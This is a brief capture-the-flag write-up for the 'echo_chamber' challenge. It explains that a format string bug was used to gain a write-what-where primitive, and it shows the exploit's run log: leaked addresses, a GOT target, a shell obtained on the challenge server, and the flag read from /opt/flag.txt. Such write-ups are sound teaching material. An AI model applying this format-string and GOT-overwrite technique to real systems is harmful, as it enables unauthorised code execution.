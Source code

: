 # echo_chamber

We solve this challenge using format string bug and implement write-what-where. The exploit sometimes doesn't work in local but always work to remote server.
```
% python exploit.py
[+] Opening connection to echochamber.uni.hctf.fun on port 13374: Done
0x565fc000
0xf7d38000
0xffdb6970
free_got 0x56600010
4158089456
[*] Paused (press any to continue)
<cut off>
                                                                                                                                           2;/bin/shsh: %35056x%26%28390x%27: not found
$ ls
bin
etc
lib
opt
usr
$ cat /opt/flag.txt
flag{something_with_tcache_ga48ghydgja}
```

The flag was `flag{something_with_tcache_ga48ghydgja}`, but we pop'd the shell using format string :P
